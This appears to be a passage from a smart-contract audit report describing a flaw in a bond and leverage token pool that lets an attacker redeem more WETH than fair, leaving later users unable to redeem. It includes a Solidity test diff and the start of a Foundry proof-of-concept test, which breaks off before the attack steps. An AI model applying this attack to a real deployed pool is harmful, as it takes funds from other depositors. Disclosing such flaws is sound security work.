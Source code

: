 ### Impact

The users lose a portion of their underlying assets e.g WETH and the attacker gains a proportionate amount of the total loss accrued from each user thereby leaving a handful of users with bond or leverage tokens they cannot redeem for the underlying asset as the pool holds less balance to redeem them.

From the POC below, we can see that Alice deposited 1 WETH and then immediately redeemed all her bond shares and got 0.97 WETH in return even in the same timestamp without the protocol charging fees and prices remaining exactly the same. In this case, I have set the pool fee to 0 so we can understand the bug's existence simply. We can also note that the attacker first redeems their bond shares and still has 40 leverage shares to redeem without sufficient underlying assets in the pool yet. Once new users then create bond or leverage tokens, he can go ahead and redeem his leverage tokens forcing such newer users into a loss still.

### PoC

Add this diff in the `Pool.t.sol` test file:
```diff
using Decimals for uint256;
  using Strings for uint256;

+ Pool.TokenType initassetType;
  PoolFactory private poolFactory;
  PoolFactory.PoolParams private params;

  MockPriceFeed private mockPriceFeed;
+ MockPriceFeed private mockPriceFeed1;
  address private oracleFeedsContract;

  address private deployer = address(0x1);
  address private minter = address(0x2);
  address private governance = address(0x3);
  address private securityCouncil = address(0x4);
  address private user = address(0x5);
  address private user2 = address(0x6);

  address public constant ethPriceFeed = address(0x71041dddad3595F9CEd3DcCFBe3D1F4b0a16Bb70);
+ address public constant bondEthPriceFeed = address(0x71041dDdAD3595f9Ced3DcCfbE3d1f4B0A16bB71);
  uint256 private constant CHAINLINK_DECIMAL_PRECISION = 10**8;
  uint8 private constant CHAINLINK_DECIMAL = 8;
```

Then add this test case below to test: `forge test --mt testRedeemFromPoolAsUserAfterPoolCreated -vvv`

```solidity
function testRedeemFromPoolAsUserAfterPoolCreated() public {
    initializeTestCasesFixedEth();

    vm.startPrank(governance);
    Token rToken = Token(params.reserveToken); // WETH

    // Mint reserve tokens for PreDeposit actions
    rToken.mint(governance, 10 ether);
    rToken.approve(address(poolFactory), 10 ether);

    // Mint reserve tokens to Alice from Dallas
    address aliceFromDallas = makeAddr("aliceFromDallas");
    rToken.mint(aliceFromDallas, 1 ether);

    // Create salt to create the pool at a different address
    string memory salt = "NEW POOL";
    
```